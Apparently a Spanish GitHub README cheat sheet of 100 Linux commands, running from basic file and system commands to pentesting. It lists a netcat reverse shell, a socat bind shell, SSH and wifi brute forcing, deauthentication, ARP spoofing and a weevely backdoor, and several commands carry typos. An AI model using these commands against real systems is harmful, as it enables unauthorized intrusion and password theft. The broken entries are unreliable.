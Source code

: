 # C-digo-b-sico
# 01. Código de comandos básicos para Linux:
   
1. pwd - Directorio actual
2. ls - Lista los archivos del directorio
3. cd - Cambia de directorio
4. mkdir <carpeta> - Crea una carpeta
5. rm <archivo> - Borra un archivo
6. rmdir -r <carpeta> - Borra una carpeta
7. cp <archivo> <destino> - Copia archivos
8. mv <archivo> <destino> - mueve/cambia de nombre archivos
9. touch <archivo> - Crea un archivo
10. cat <archivo> - Muestra el contenido de un archivo
11. nano <archivo> - Editor de archivo Nano
12. vim <archivo> - Editor de archivo Vim
13. find / -nombre <archivo> - Busca un archivo
14. grep "texto" <archivo> - Busca un texto en un archivo 
15. history - Muestra la historia de comandos

# 02. Comandos de información del sistema:

16. uname -a - Muestra información del sistema
17. whoami - Muestra el usuario actual
18. id - Muestra el ID del usuario y del grupo
19. uptime - Muestra la cantidad de tiempo del sistema está operativo
20. df -h - Muestra el uso del disco
21. du -sh <carpeta> - Muestra el tamaño de una carpeta
22. top - Muestra procesos activos
23. ps aux - Lista los procesos que se están ejecutando
24. kill <proceso> - Termina un proceso
25. htop - Gestion de procesos interactivos

# 03. Uso de comandos de gestión:

26. adduser <usuario> - Añade un nuevo usuario
27. deluser <usuario> - Elimina un usuario
28. passwd <usuario> - Cambia la contraseña
29. usermod -aG sudo <usuario> - Da acceso de superusuario
30. groups <usuario> -Muestra los grupos del usuario
31. chmod 777 <archivo> - Cambia los permisos del archivo
32. chown usuario:grupo <archivo> - Cambia el dueño del archivo

# 04. Comandos en redes:

33. ifconfig - Muestra la interfaz de la red
34. ip a - Muestra la dirección IP
35. iwconfig - Muestra la interfaz wifi
36. ping <IP> - Test de conexión IP
37. netstat -tulnp - Muestra los puertos abiertos
38. nmap <IP> - Escanea los puertos abierto del objetivo
39. traceroute <IP> - Traza una ruta a un host
40. curl <URL> - Busca datos de una URL
41. wget <URL> - Descarga un archivo
42. dig <dominio> - Obtiene infomacion DNS
43. nslookup <dominio> - Realiza una busqueda de DNS

# 05. Comandos de Hacking & Test de Penetración:

44. msfconsole - Inicia Mestasploit
45. msfvenom - Genera cargas útiles (payloads)
46. searchsploit <exploit> - Busca exploits
47. sqlmap -u <URL> --dbs - Test de SQL injection
48. hydra -l user -P pass.txt <IP> shh - SSH de fuerza bruta
49. john --wordlist=rockyou.txt hash.txt - Crackea hashes
50. airmon-ng start wlan0 - Permite modo monitorización
51. airdump-ng wlan0mon - Captura paquetes wifi
52. airplay-ng -0 10 -a <BSSID> wlan0mon - Desautentica clientes
53. aircrack-ng -w rockyou.txt -b <BSSID> <archivo_capturado> - Crackea contraseña WIFI
54. hashcat -m 2500 hash.txt rockyou.txt - Cracka hashes usando GPU
55. ettercap -T -q -i eth0 - Realiza una suplantación de ARP
56. driftnet -i eth0 - Captura imágenes del trafico de red
57. tcpdump -i eth0 - Captura paquetes de red
58. tshark -i eth0 - Analisis del trafico de red
59. nikto -h <URL> - Escanea nulnerabilidades de servidores web
60. gobuster dir -u <URL> -w /urs/share/wordlists/dirb/common.txt - Fuerza bruta de la carpeta
61. wpscan --url <URL> - Escanea vulnerabilidades en WordPress

#06. Escalada de Privilegios & Post-Explotaciones:

62. sudo -l - Muestr los privilegios de superusuario
63. sudo su - Cambia a usuario root
64. python -c 'import pty:pty.spawn("/bin/bash/")' - Habilita el shell/terminal
65. nc -lvnp <puerto> - Empieza un Netcat de escucha
66. nc <IP> <puerto> -e /bin/bash - Shell inverso
67. meterpreter> getuid - Muestra el usuario actual en Meterpreter
68. meterpreter> getsystem - Intenta escalar privilegios
69. meterpreter> upload / download <archivo> - Transfiere archivos
70. merterpreter> shell - Obterner shell/terminal del sistema
71. linux-exploit-suggester - Sugiere exploits para escalada de privilegios

# 07. Cifrado de Archivos & Datos:

72. gpg -c <archivo> - Cifra un archivo
73. gpg -d <archivo.gpg> - Descifra un archivo
74. openssl enc -aes-256-cbc -salt -in <archivo> -out <archivo.enc> Cifra usando OpenSSL
75. openssl enc -d -aes-256-cbc -salt -in <archivo.enc> -out <archivo> - Descifra el archivo

# 08. Forense & Esteganografía:

76. string <archivo> - Extrae los strigns de un archivo
77. binwalk <archivo> - Analiza binarios
78. foremost -i <imagen> - Extrae archivos de una imagen
79. exiftool <archivo> - Muestra los metadatos de un archivo
80. stegseek <archivo steg/stegfile> -Detecta datos ocultos en una imagen

09. Cracking de Contraseñas & Hashes:

81. hashid <hash> - Identifica el tipo de hash
82. hydra -L users.txt -P passwords.txt ssh://<IP> - Fuerza bruta SSH
83. john hash.txt --wordlists=rockyou.txt - Crackea hashes de contraseñas

10. Tests de Aplicaciones Web:

84. dir <URL> - Enumeracion de carpetas
85. wfuzz -c -z file,wordlists.txt --hc 404 <URL>/ FUZZ - Web fuzzing
86. xsssniper -u <URL> - Test para XSS
87. commix --url <URL> - Test de inyección de comandos
88. burpsuite - Test con Burp Suite

# Varios:

89. crunch 8 8 abcdefghijklmnopqrstuvwxyz - Genera una wordlist
90. proxychains nmap -sT -Pn <IP> - Usa proxychains con Nmap
91. tor - Abre navegador Tor
92. mitmproxy - Empieza un proxy de man-in-the-middle
93. setoolkit - Comienza una Ingenieria Social con Toolkit
94. cewl -w words.txt -d 5 <URL> - Genera una lista de palabras personalizadas
95. weevely generate password backdoor.php - Crea una backdoor en una web
96. socat TCP-LISTEN:4444,fork EXEC:/bin/bash - Une el shell
97. whois <domain> - Da información sobre el dominio
98. theHarvester -d <domain> -l 100 -b google -Recolecta información sobre email y subdominios
99. fcrackzip -u -D -p rockyou.txt <archivo.zip> - Crackea una contraseña de un archivo .zip
100. dnscan -d <dominio> - Muestra subdominios
